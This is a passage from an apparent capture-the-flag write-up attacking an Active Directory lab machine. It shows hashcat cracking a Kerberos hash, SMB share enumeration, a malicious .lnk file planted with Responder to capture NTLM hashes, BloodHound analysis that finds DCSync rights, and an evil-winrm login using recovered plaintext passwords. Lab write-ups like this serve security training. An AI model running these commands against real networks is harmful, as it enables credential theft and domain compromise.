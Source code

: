 Now we have hash.

```bash
hashcat -m 13100 hsmith.hash /usr/share/wordlists/rockyou.txt
```

Password is the same: `Thestrokes23`

Actually  `hsmith` isn’t worth exploring as he is not in any major or important groups.

Checking for shares with `fsmith`:

```bash
sudo nxc smb $IP -u fsmith -p 'Thestrokes23' --shares
```

![image.png](image%2016.png)

We have write access to the share and I cannot list it.

Let’s perform `.lnk` file exploit, where we put `.lnk` file and whoever clicks will start authentication to our server essentially sending their hash to us.

I used [hashgrab](https://github.com/xct/hashgrab) to generate `.lnk` file and put it inside share.

Run responder:

```bash
sudo responder -I tun0
```

While waiting let’s start enumeration with BloodHound:

Tranfer SharpHound.exe to the target with `upload` function of evil-winrm and run:

```bash
.\SharpHound.exe -c All --zipfilename saunaAD
```

Unfortunately, we didn’t receive anything from responder.

```bash
sudo neo4j start
bloodhound 
```

I see that `svc_loanmgr` have DCSync privileges over domain that means if we are `svc_loanmgr` game over:

![image.png](image%2017.png)

Running PowerUp.ps1 I identified some Autologon credentials for `svc_loanmgr` account:

![image.png](image%2018.png)

and checking it I identified that we can login to the system.

```bash
evil-winrm -i $IP -u svc_loanmgr -p 'Moneymakestheworldgoround!’
```

![image.png](image%2019.png)

